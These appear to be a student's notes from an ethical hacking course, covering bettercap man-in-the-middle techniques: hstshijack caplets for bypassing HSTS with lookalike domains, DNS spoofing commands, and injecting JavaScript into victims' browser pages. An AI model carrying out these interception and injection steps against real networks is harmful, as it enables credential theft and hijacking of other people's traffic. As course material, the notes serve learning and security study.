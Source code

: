 ```sh
> caplets.show    //show all the capltes with the bettercap
> hstshijack/hstshijack
```

ctrl + shift + del   to open chrome clear browsing data dialog

## chapter 43

HSTS
- `HTTP Strict Transport Security`(HTTP严格传输安全).
- Used by Facebook, Twitter and few other famous websites.

Problem:
- Modern browsers are hard-coded to only load a list of HSTS websites over https
  
Solution:
- Trick the browser into loading a different website.
Replace all links for HSTS websites with similar links

facebook.com -> facebook.corn
twitter.com -> twiter.com

SSL stripping

## chapter 44

```sh
service apache2 start
ifconfig

vim /var/www/html/index.html
```

```sh
> set dns.spoof.all true
> set dns.spoof.domains zsecurity.org,*.zsecurity.org
> dns.spoof on
```
not work for hsts

## chapter 45
Bettercap code injection

- inject javascript code in loaded pages
- code gets executed by the target browser
- this can be used to 
  - replace links
  - replace images
  - insert html elements
  - hook target browser to exploitation frameworks
  - +more!
  - 
```sh
vim /usr/share/bettercap/caplets/hstshijack/hstshijack.cap
# modifty the hstshijack.payloads line add the following
*:/root/alert.js
```
not work for hsts
